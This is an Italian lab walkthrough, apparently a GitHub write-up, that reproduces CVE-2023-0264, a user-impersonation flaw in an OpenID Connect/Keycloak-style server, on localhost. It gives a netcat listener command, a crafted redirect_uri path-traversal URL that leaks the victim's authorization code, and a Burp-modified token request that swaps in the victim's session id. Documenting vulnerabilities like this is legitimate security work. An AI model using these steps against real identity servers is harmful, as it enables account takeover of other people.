 # CVE-2023-0264 User impersonation via stolen UUID code

- creazione di due utenti, `paola` e `mario` per esempio
- attivazione un listner `$ nc -lvnp 1234`
- autenticazione dell'utente `paola`, l'utente vittima, utilizzando il link descritto nella CVE precedente e qui di seguito riportato:

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=
https%3A%2F%2Flocalhost%3A4200%2Flogin%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
response_mode=fragment&
response_type=code
```
cf5a0763-316b-4b81-a15c-04b297ee92fa

- cattura e conservazione del `session_state` perché servirà nei passaggi successivi. Questo parametro rappresenta il `session_id` dell'utente vittima, in questo caso l'utente `paola`. Si noti che la parte centrale del parametro `code` coincide con il `session_state` stesso.

```shell
GET /?state=0a1aeed9-19ae-4f77-b59b-5e7bfe9c5bf6&
session_state=d9f88110-7cc6-4d6c-b678-e2c575e0c4bb&
code=d310bb8c-883c-477c-bff3-5e33922a9169.
d9f88110-7cc6-4d6c-b678-e2c575e0c4bb.
f4e96ce3-fdb3-412d-8ab3-264dd456e096
```
- si è effettuato il logout dell'utente `paola`
- si è verificato che non vi erano più nessun cookie salvato
- si è attivato Burp e si è attivato il proxy
- si è effettuato il login come `mario`, l'utente malevolo
- si è provveduto a forwardare tramite Burp tutte le richieste fino ad arrivare alla richiesta qui di seguito riportata:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
```

- in fine si è proceduto a modificare l'url inserendo il `session_state` della vittima catturato prima:

```shell
POST /realms/winted/protocol/openid-connect/token HTTP/1.1
...cut...
code=96a0d20a-0ca8-461f-bc3c-e8e50ef60d62.<SESSION_ID_VITTIMA>.f4e96ce3-fdb3-412d-8ab3-264dd456e096
```

- Il processo termina inviando la richiesta

